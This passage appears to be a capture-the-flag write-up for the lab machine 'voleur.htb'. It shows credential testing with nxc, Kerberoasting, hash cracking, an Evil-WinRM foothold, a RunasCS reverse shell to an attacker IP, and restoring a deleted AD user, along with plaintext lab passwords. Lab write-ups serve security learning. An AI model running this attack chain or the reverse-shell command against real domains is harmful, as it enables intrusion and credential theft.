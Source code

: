 ## 🔑 Service Account Access

Tested creds:
```zsh
nxc smb dc.voleur.htb -u svc_ldap -p M1XyC9pW7qT5Vn -k
[+] Success
nxc smb dc.voleur.htb -u svc_iis -p N5pXyW1VqM7CZ8 -k
[+] Success
```

Performed **Kerberoasting**:
```zsh
python3 targetedKerberoast.py -d voleur.htb -k --no-pass --dc-host dc.voleur.htb
```
Hashes obtained for:
- `lacey.miller` (not cracked)  
- `svc_winrm` (cracked)

Cracked `svc_winrm` hash via Hashcat:
```
svc_winrm : AFireInsidedeOzarctica980219afi
```

---

## 🚪 Foothold – Evil-WinRM

With cracked svc_winrm:
```zsh
impacket-getTGT voleur.htb/svc_winrm:'AFireInsidedeOzarctica980219afi'
export KRB5CCNAME=svc_winrm.ccache
evil-winrm -i dc.voleur.htb -r voleur.htb
```
✅ Shell as `svc_winrm`.

---

## 🧭 Privilege Escalation Chain

### 🔄 Runas → svc_ldap
Used RunasCS to impersonate svc_ldap:
```powershell
RunasCS.exe svc_ldap M1XyC9pW7qT5Vn powershell.exe -r 10.10.16.2:9999
```

### ♻️ AD Recycle Bin → Todd Wolfe
Recovered deleted user `Todd.Wolfe`:
```powershell
Get-ADObject -Filter 'isDeleted -eq $true -and objectClass -eq "user"' -IncludeDeletedObjects
Restore-ADObject -Identity <GUID>
```
Password known from Access Review doc:  
`todd.wolfe / NightT1meP1dg3on14`

